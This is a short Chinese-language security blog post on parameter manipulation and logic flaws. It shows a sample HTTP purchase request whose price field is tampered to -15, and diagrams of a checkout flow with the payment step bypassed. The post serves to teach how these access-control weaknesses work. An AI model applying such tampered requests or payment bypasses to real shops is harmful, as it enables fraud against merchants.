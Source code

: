 ```yaml
---
layout:     post
title:      Parameter Manipulation and Logic Flaws
subtitle:   
date:       2020-01-09
author:     D
header-img: 
catalog: true
tags:[Broken Access Control, Parameter Manipulation, Logic FLaws]
mermaid: true
---
```


### Parameter Manipulation
如下，你可修改price的值来达到你买东西的时候付多少钱的目的.

```
POST /store/buy HTTP/1.1
Host: acme.com
Connection: close
Content-Length: 22
Cache-Control: max-age=0
Origin: https://acme.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=3214536754363414df3142gf2341

price= -15 &action=add
```

### Logic Flaws

逻辑缺陷是MFLAC的一种变体，它涉及一个多步骤工作流，攻击者可以`跳过`该工作流的`步骤`以获得优势。
比如原始的步骤如下：
```mermaid
graph TD
A(add Item to cart) -->B(Checkout)
    B(Checkout) -->C(Entershippinginfo)
    C(Entershippinginfo) -->D(Payment)
    D(Payment) --> E(Purchase confirmation)
    E(Purchase confirmation) --> F(Receiveitem)
```
可以绕过付款，那就无须付款如下：
```mermaid
graph TD
A(add Item to cart) -->B(Checkout)
    B(Checkout) -->C(Entershippinginfo)
    C(Entershippinginfo) -->|Payment| D[Purchase confirmation]
     C(Entershippinginfo) -->|绕过 Payment| D[Purchase confirmation]
    D(Purchase confirmation) --> E(Receiveitem)
```

